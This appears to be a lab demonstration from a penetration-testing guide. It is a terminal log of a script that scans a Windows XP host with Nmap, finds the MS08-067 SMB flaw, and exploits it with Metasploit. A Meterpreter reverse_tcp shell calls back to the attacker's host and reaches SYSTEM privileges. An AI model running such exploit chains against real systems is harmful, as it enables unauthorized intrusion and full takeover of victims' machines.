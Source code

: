 ```
root@KaliLinux:~# ./test_n_xploit.sh 172.16.36.225 172.16.36.239 4444

Starting Nmap 6.25 ( http://nmap.org ) at 2014-04-10 05:58 EDT 
Nmap scan report for 172.16.36.225 
Host is up (0.00077s latency). 
PORT    STATE SERVICE 
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:18:11:FB (VMware)

Host script results: 
| smb-check-vulns: 
|   MS08-067: VULNERABLE 
|   Conficker: Likely CLEAN 
|   regsvc DoS: NOT VULNERABLE 
|   SMBv2 DoS (CVE-2009-3103): NOT VULNERABLE 
|   MS06-025: NO SERVICE (the Ras RPC service is inactive) 
|_  MS07-029: NO SERVICE (the Dns Server RPC service is inactive)

Nmap done: 1 IP address (1 host up) scanned in 5.61 seconds 172.16.36.225 appears to be vulnerable, exploiting with Metasploit... 
[*] Please wait while we load the module tree...
     ,           ,    
    /             \  
   ((__---,,,---__))   
      (_) O O (_)_________    
         \ _ /            |\    
          o_o \   M S F   | \  
               \   _____  |  *    
                |||   WW|||      
                |||     |||
                
Frustrated with proxy pivoting? Upgrade to layer-2 VPN pivoting with Metasploit Pro -- type 'go_pro' to launch it now.

       =[ metasploit v4.6.0-dev [core:4.6 api:1.0] 
+ -- --=[ 1053 exploits - 590 auxiliary - 174 post 
+ -- --=[ 275 payloads - 28 encoders - 8 nops

PAYLOAD => windows/meterpreter/reverse_tcp 
RHOST => 172.16.36.225 
LHOST => 172.16.36.239 
LPORT => 4444

[*] Started reverse handler on 172.16.36.239:4444 
[*] Automatically detecting the target... 
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English 
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX) 
[*] Attempting to trigger the vulnerability... 
[*] Sending stage (752128 bytes) to 172.16.36.225 
[*] Meterpreter session 1 opened (172.16.36.239:4444 -> 172.16.36.225:1130) at 2014-04-10 05:58:30 -0400

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
